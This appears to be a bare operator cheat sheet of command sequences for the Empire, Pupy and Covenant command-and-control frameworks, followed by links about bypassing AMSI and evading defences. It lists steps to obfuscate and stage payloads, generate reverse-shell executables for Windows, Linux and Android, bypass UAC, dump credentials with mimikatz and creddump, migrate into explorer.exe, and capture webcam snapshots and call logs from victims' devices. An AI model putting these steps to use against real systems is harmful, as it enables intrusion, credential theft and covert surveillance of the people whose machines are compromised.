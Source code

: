 ##Empire

	- ./empire
	- > preobfuscate
	- > set Obfuscate true
	- > listeners
	- > uselistener http
	- > info
	- > set Name / set Host
	- > execute
	- > usestager <tab>
	- > usestager osx/launcher
	- > set listener 
	- > execute
	- > agents
	- > rename
	- > interact
	- > bypassuac http
	- > info
	- > mimikatz
	- > creds
	- > shell netstat -ano
	- > dowload/upload
	- > usemodule <tab> privesc/bypassuac
	- > set <" ">
	- > execute
	- > 




##Pupy

	- ./pupysh.py
	- ./pupygen.py -h
	- ./pupygen.py -O windows -A x86 -o /root/Desktop/shell.exe
	- >> sessions
	- >> rdesktop -h
	- >> bypassuac -h
	- >> creddump
	- >> ps
	- >> migrate -p explorer.exe -k

	- ./pupygen.py -O linux -A x64 -o /root/Desktop.shell
	- >> privesc_checker --linenum
	- >> exploit_suggester -h
	- >> get_info

	- ./pupygen.py -O android -o /root/shell.apk
	- >> call -a -output-folder /root/call
	- >> webcamsnap -v
	- >> apps -a -d

##Covenant



- [Bypass AMSI Manual](https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/)

- [Manipulación para evasión defensa](https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/)
